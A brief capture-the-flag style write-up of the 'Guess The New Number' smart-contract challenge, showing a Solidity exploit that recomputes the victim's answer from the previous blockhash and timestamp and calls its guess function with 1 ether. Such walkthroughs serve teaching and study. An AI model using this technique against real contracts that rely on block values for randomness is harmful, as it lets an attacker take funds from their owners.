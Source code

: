 # Guess The New Number

This is another example of a contract w/ an issue using block values.

```
uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));

challenge.guess{value: 1 ether}(answer);
````

The var answer solves the value that is required and then the function `guess` is called from challenge, an instance of the victim contract.